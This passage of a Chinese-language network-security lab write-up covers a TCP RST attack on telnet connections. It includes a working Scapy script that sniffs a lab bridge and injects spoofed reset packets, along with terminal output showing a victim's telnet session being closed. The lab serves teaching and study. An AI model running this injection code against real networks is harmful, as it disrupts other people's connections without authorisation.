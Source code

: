 ```shell
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```

可以看到，尽管队列已经满了，但还是能正常连接。

# Task 2: TCP RST Attacks on telnet Connections

在宿主机中查看网桥名称：

```shell
$ ifconfig
br-88413f1d34bf: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.9.0.1  netmask 255.255.255.0  broadcast 10.9.0.255
        inet6 fe80::42:65ff:fef4:634e  prefixlen 64  scopeid 0x20<link>
        ether 02:42:65:f4:63:4e  txqueuelen 0  (Ethernet)
        RX packets 4395661  bytes 193408492 (193.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4821393  bytes 260362284 (260.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

编写 `tcprst.py`：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
	ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
	tcp = TCP(sport=23, dport=pkt[TCP].dport, flags="R", seq=pkt[TCP].seq+1)
	pkt = ip/tcp
	ls(pkt)
	send(pkt, verbose=0)
	
f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-88413f1d34bf', filter=f, prn=spoof_pkt)
```

运行程序：

```shell
attacker-10.9.0.1$ tcprst.py
```

telnet `10.9.0.5`：

```shell
user1-10.9.0.6$ telnet 10.9.0.5
Trying 10.9.0.5...
Connected to 10.9.0.5.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
22c45e0a11e6 login: sConnection closed by foreign host.
```
